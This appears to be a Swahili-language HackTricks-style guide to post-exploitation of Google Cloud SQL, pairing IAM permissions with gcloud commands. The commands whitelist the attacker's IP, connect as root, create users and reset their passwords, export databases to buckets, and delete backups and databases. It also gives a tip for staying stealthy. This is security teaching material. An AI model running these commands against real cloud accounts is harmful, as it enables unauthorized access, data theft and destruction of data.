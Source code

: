 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Kwa maelezo zaidi kuhusu Cloud SQL angalia:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Ili kuungana na hifadhidata unahitaji **tu ufikiaji wa bandari ya hifadhidata** na kujua **jina la mtumiaji** na **nenosiri**, hakuna mahitaji ya IAM. Hivyo, njia rahisi ya kupata ufikiaji, tukichukulia kwamba hifadhidata ina anwani ya IP ya umma, ni kuboresha mitandao iliyoidhinishwa na **kuruhusu anwani yako ya IP kuweza kuifikia**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Ni pia inawezekana kutumia **`--no-backup`** ku **haribu nakala za akiba** za database.

Kwa kuwa hizi ndizo mahitaji, siko wazi kabisa ni ruhusa zipi **`cloudsql.instances.connect`** na **`cloudsql.instances.login`** zinahusiana nazo. Ikiwa unajua, tuma PR!

### `cloudsql.users.list`

Pata **orodha ya watumiaji wote** wa database:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ruhusa hii inaruhusu **kuunda mtumiaji mpya ndani** ya hifadhidata:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ruhusa hii inaruhusu **k updating mtumiaji ndani** ya database. Kwa mfano, unaweza kubadilisha nenosiri lake:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups zinaweza kuwa na **habari nyeti za zamani**, hivyo ni muhimu kuziangalia.\
**Rejesha nakala ya akiba** ndani ya database:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Ili kufanya hivyo kwa njia ya siri zaidi, inashauriwa kuunda mfano mpya wa SQL na kurejesha data huko badala ya kwenye hifadhidata zinazotumika sasa.

### `cloudsql.backupRuns.delete`

Ruhusa hii inaruhusu kufuta nakala za akiba:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Hamisha database** kwa Cloud Storage Bucket ili uweze kuipata kutoka hapo:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Ingiza database** (andika upya) kutoka kwa Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Futa database kutoka kwa db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}
